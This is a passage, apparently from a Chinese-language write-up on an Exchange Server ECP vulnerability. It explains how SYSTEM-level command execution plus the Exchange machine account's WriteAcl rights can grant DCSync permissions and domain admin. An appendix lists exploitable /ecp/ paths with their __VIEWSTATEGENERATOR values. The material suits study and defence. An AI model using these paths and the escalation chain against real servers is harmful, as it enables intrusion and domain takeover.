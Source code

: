 收到dns请求

![image](../img/1886dc2cf501a90afe30fcf8b878f058.png)

由于Exchange Server的机器用户具备SYSTEM权限，默认在域内拥有WriteAcl的权限，因此，可以通过修改ACL的`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`来赋予任何一个用户Dcsync的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过Exchange Server上以system用户的身份执行任意的命令，再利用Exchange Server的WriteAcl权限，从而达到域管权限。

### 附录

经过简单测试，已知可利用路径：

```
/ecp/default.aspx
__VIEWSTATEGENERATOR=B97B4E27

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&

__VIEWSTATEGENERATOR=1D01FD4E

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&

__VIEWSTATEGENERATOR=1D01FD4E

/ecp/Organize/AutomaticReplies.slab?showhelp=false&

__VIEWSTATEGENERATOR=FD338EE0

/ecp/RulesEditor/InboxRules.slab?showhelp=false&

__VIEWSTATEGENERATOR=FD338EE0

/ecp/Organize/DeliveryReports.slab?showhelp=false&

__VIEWSTATEGENERATOR=FD338EE0

/ecp/MyGroups/PersonalGroups.aspx?showhelp=false&

__VIEWSTATEGENERATOR=A767F62B

/ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1

__VIEWSTATEGENERATOR=321473B8

/ecp/Customize/Messaging.aspx?showhelp=false&

__VIEWSTATEGENERATOR=9C5731F0

/ecp/Customize/General.aspx?showhelp=false&

__VIEWSTATEGENERATOR=72B13321

/ecp/Customize/Calendar.aspx?showhelp=false&

```